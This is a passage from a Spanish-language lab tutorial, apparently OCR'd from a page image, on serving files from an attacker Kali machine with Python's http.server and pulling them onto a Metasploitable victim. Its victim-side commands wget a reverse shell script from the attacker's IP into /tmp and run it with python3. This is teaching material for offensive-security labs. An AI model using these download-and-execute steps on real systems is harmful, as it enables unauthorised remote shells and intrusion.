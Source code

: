 ```bash
python3 -m http.server 8000
```

Esto crea un servidor web en el **puerto 8000** sirviendo el contenido de ese directorio.

✔️ Ahora puedes acceder desde otra máquina usando:

```bash
http://192.168.56.1:8000
```

---

### 📥 Parte 2: Descargar archivos desde otra máquina

En la máquina **víctima** (ej: Metasploitable):

```bash
wget http://192.168.56.1:8000/reverse_shell_client.py -O /tmp/shell.py
```

✅ Esto descarga el archivo y lo guarda en `/tmp/shell.py`

---

### 🧪 Ejemplo completo

#### 🔹 En la máquina atacante (Kali):

```bash
cd /home/kali/exploits/
python3 -m http.server 8000
```

Salida:

```
Serving HTTP on 0.0.0.0 port 8000 ...
```

---

#### 🔹 En la máquina víctima (Metasploitable):

```bash
wget http://192.168.56.1:8000/rev.py -O /tmp/a.py
python3 /tmp/a.py
```

✅ Ahora estás ejecutando el script que serviste con HTTP.

---

### 🛠️ Extras útiles

#### Cambiar puerto del servidor:

```bash
python3 -m http.server 9000
```
